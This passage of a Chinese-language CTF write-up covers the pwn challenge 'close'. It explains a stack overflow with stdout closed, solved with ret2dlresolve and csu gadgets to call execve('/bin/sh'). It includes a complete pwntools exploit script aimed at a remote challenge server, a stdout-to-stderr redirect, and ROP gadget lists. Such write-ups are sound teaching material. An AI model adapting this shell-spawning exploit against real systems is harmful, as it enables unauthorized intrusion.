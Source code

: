 ```
# 0x0000000000036174 : pop rax ; ret
```

### close
Q:你leak不了一点！hacker！！
A:？？？？？？
依旧是栈溢出，这次没有沙箱了。但是把标准输出关闭了。这意味着我们需要把标准输出重定向才能获得flag
![](https://zcoi.github.io/blogs/CTF/monthgame2310/3dis1.png)
既然我们在get shell之前没办法获得任何输出，那么我们必须采用一种不依赖于泄露东西的方法。
于是毋庸置疑，关于泄露libc地址的方法直接一票否决了。
于是考虑使用ret2dlresolve来调用shell。
这里使用生成的payload
原本是想用system("/bin/sh")的，但是发现system好像有些神秘问题导致显示：
![](https://zcoi.github.io/blogs/CTF/monthgame2310/3problem.png)
于是采用execve("/bin/sh",0,0)来获取shell
但是由于没有直接pop rdx的gadget，我们使用csu来进行rdx的修改。（注意这里面的call和判断,标记起来了）：
![](https://zcoi.github.io/blogs/CTF/monthgame2310/3csu.png)
所以我们先把想要的rdx的值pop到r14里面，然后返回到0x4012300那里，把r14赋给rdx。这里绕过判断就是让rbx和rbp值相等。这里多调试几下就OK了
之后就get到shell了。这时候我们要把标准输出重定向到标准错误里面，即exec 1>&2
hint:网上关于标准输出被关闭的情况，有教程：exec 1>&0。但是似乎ubuntu 20不太好使。 可以选择把输出重定向给标准错误（2）
```
from pwn import *
context(arch='amd64',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']
context.binary = elf = ELF("./pwn")
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf,symbol="execve",args=["/bin/sh",0])
rop.read(0,dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
# io = process("./pwn")
# io=process(['./ld-linux-x86-64.so.2', './pwn'], env={"LD_PRELOAD":'./libc.so.6'})
# io=process(['./ld-2.31.so', './pwn'], env={"LD_PRELOAD":'./libc-2.31.so'})
io=remote('8.130.110.158',7001)
# gdb.attach(io)
payload0 = flat({0x98:raw_rop})
io.sendlineafter('name',"fuck")
payload1=b'a'*0x90+p64(0x404e90)+p64(0x40127c)
io.sendlineafter('response',payload1)
pause()
io.sendline(dlresolve.payload.ljust(0x90,b'\x00')+p64(0x404ff0)+p64(0x401323)+p64(0x402018)+p64(0x40131a)+p64(0)+p64(1)+p64(0x402018)+p64(0)+p64(0)+p64(elf.got['alarm'])+p64(0x401300)+p64(0x404e90)+p64(0x404ff0)+p64(0x401230)+p64(0)+p64(0)+p64(0)+raw_rop[40:])
# pause()
# io.sendline(dlresolve.payload)
# io=remote('8.130.110.158',7001)
io.sendline(b"exec 1>&2")
io.sendline(b"ls")
io.interactive()
 
# 0x404e90
# 0x000000000040131c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040131e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000401320 : pop r14 ; pop r15 ; ret
# 0x0000000000401322 : pop r15 ; ret
# 0x000000000040131b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040131f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x00000000004011bd : pop rbp ; ret
# 0x0000000000401323 : pop rdi ; ret
# 0x0000000000401321 : pop rsi ; pop r15 ; ret
```